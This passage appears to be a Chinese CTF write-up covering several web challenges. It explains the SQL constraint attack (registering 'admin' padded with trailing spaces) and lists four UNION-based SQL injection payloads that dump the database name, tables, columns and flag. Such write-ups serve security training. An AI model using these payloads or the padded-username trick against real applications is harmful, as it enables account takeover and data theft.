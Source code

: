  `SQL约束攻击`：在SQL中执行字符串处理时，字符串末尾的空格符将会被删除。

换句话说“vampire”等同于“vampire ”，对于绝大多数情况来说都是成立的（诸如WHERE子句中的字符串或INSERT语句中的字符串）

例如以下语句的查询结果，与使用用户名“vampire”进行查询时的结果是一样的。
```
  SELECT * FROM users WHERE username=‘vampire     ‘;
```
  
   但也存在异常情况，最好的例子就是LIKE子句了。注意，对尾部空白符的这种修剪操作，主要是在“字符串比较”期间进行的。这是因为，SQL会在内部使用空格来填充字符串，以便在比较之前使其它们的长度保持一致。

   在所有的INSERT查询中，`SQL都会根据varchar(n)来限制字符串的最大长度`。也就是说，如果字符串的长度大于“n”个字符的话，那么仅使用字符串的前“n”个字符。比如特定列的长度约束为“5”个字符，那么在插入字符串“vampire”时，实际上只能插入字符串的前5个字符，即“vampi”。

解：

注册  `'admin     '`

![](https://img-blog.csdnimg.cn/20210220225836255.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
登录  `'admin     '`

![](https://img-blog.csdnimg.cn/20210220225924345.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## web3-成绩查询
- 知识点  sql注入

![](https://img-blog.csdnimg.cn/20210220230026800.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Bp抓包

回显字段数为4

![](https://img-blog.csdnimg.cn/20210220230046393.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

```
 查库 : 0'union select 1,2,3,database()#
 查表 : 0'union select 1,2,3,table_name from information_schema.tables where table_schema=database()#
 查列 : 0'union select 1,2,3,column_name from information_schema.columns where table_name='fl4g'#
 查数据 : 0'union select 1,2,3,flag from fl4g#
```


---
## web4-warmup
- 知识点  代码审计

同 攻防世界warmup

---
## web5-这里有几首歌
- 知识点 代码审计

![](https://img-blog.csdnimg.cn/20210220230837560.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
查看源码发现download.php 且歌曲为base64编码
